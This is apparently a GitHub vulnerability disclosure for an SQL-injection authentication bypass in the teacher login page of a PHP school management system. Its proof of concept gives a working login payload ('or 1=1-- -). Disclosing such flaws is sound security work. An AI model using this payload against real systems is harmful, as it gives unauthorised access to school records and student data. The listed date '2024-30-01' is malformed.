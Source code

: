# Simple School Managment System - Authentication Bypass - 2 (Teacher Login)
+ **Exploit Title:** Simple School Managment System - Authentication Bypass - 2 (Teacher Login)
+ **Date:** 2024-30-01
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/School/teacher_login.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/School/teacher_login.php"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-02-01 150225](https://github.com/tubakvgc/CVEs/assets/74067343/821e1d60-6653-4cba-b5dc-850cd93b6f0d)

![Ekran görüntüsü 2024-02-01 150417](https://github.com/tubakvgc/CVEs/assets/74067343/226fec38-d74c-48d6-8b39-3fdfd0326e0a)
